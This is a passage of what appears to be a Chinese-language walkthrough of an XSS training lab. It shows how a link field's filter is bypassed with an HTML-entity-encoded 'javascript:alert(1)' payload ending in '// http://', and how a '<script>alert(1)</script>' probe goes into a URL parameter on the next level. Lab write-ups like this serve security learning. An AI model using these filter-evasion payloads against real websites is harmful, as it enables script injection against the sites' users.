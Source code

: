 提交显示不合法



没有思路，我先写一个正常的www.baidu.com

发现也不合法

会不会是前面要加http之类的呢？

```
http://www.baidu.com
```



发现结果正确，并且可以访问，看元素

```
<a href="http://www.baidu.com">友情链接</a>
```



那就下面进行测试

```
http://javascript:alert(1)
```

发现绕过script，试试上面的

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;// http://
```



通过



### 10.

没有搜索框，但是可以发现URL

```
?keyword=well%20done!
```



随便写几个上去测试一下

```
?keyword=<script>alert(1)</script>
```



发现它好像没有在元素里面

```
<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
```

再看看源码
